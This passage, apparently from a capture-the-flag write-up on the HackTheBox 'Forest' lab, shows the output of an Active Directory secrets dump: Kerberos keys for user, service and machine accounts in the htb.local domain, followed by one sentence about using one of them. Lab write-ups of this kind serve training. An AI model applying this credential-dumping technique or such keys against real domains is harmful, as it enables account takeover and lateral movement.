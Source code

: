 ```
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
FOREST$:aes256-cts-hmac-sha1-96:45672c78eaae16282c5aa6cf8ef33327690c738735559035b27fed4e9b517ce4
FOREST$:aes128-cts-hmac-sha1-96:63108bf68ff4221935d0be3aaf18d40a
FOREST$:des-cbc-md5:4cdf16463e7ff7dc
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```
As we dumped "all secrets" available, notice a great one we need to use:
